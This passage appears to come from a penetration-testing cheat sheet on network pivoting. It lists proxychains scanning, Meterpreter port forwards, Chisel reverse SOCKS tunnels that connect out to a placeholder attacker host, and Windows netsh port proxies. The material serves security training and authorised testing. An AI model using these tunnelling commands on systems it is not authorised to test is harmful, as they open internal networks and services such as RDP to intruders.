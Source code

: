 ```bash
# Use external tools through proxy
proxychains nmap -sT 10.1.1.10
```

#### Portfwd in Meterpreter
```bash
# Forward ports through meterpreter
meterpreter > portfwd add -l 8080 -p 80 -r 10.1.1.10
meterpreter > portfwd list
meterpreter > portfwd delete -l 8080

# Access forwarded service
curl http://localhost:8080
```

### Chisel Pivoting

#### Chisel Setup
```bash
# On attacker machine
./chisel server -p 8000 --reverse

# On pivot machine (Linux)
./chisel client attacker-ip:8000 R:1080:socks

# On pivot machine (Windows)
chisel.exe client attacker-ip:8000 R:1080:socks

# Use SOCKS proxy
proxychains nmap -sT 10.1.1.0/24
```

#### Chisel Port Forwarding
```bash
# Forward specific port
./chisel client attacker-ip:8000 R:8080:10.1.1.10:80

# Multiple forwards
./chisel client attacker-ip:8000 R:8080:10.1.1.10:80 R:3389:10.1.1.10:3389
```

### Windows Native Pivoting

#### Netsh Port Forwarding
```cmd
# Enable IP forwarding
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=10.1.1.10 connectport=80

# List forwards
netsh interface portproxy show v4tov4

# Delete forward
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8080
```
